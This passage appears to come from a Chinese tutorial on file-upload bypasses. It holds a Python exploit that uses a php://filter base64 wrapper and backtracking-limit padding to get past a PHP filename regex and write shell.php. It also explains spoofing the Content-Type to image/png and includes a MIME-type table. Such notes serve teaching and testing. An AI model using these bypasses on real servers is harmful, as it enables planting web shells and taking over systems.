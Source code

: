 
```php
<?php
if(!preg_match('/.+?ph/is',$_POST['n']))
file_put_contents($_POST['n'],$_POST['s']);
```

可利用如下exp解决



```
import requests

data= {'n':"php://filter/write=convert.base64-decode/"+'/'*1000000+'/resource=shell.php','s':"PD9waHAgcGhwaW5mbygpPz4="}

print (requests.post('http://127.0.0.1',data=data).text)
```



### 2.5 各种后缀

![image-20200830213958438](assets/20200830214608.png)



## 3. 请求头检查：content-type，MIME类型

将php文件的`content-type:application/octet-stream`修改为`image/png`等就可以

更多content-type：可以查看https://tool.oschina.net/commons/

| 文件扩展名                          | Content-Type(Mime-Type)                 | 文件扩展名 | Content-Type(Mime-Type)             |
| :---------------------------------- | :-------------------------------------- | :--------- | :---------------------------------- |
| .*（ 二进制流，不知道下载文件类型） | application/octet-stream                | .tif       | image/tiff                          |
| .001                                | application/x-001                       | .301       | application/x-301                   |
| .323                                | text/h323                               | .906       | application/x-906                   |
| .907                                | drawing/907                             | .a11       | application/x-a11                   |
| .acp                                | audio/x-mei-aac                         | .ai        | application/postscript              |
| .aif                                | audio/aiff                              | .aifc      | audio/aiff                          |
| .aiff                               | audio/aiff                              | .anv       | application/x-anv                   |
| .asa                                | text/asa                                | .asf       | video/x-ms-asf                      |
| .asp                                | text/asp                                | .asx       | video/x-ms-asf                      |
| .au                                 | audio/basic                             | .avi       | video/avi                           |
| .awf                                | application/vnd.adobe.workflow          | .biz       | text/xml                            |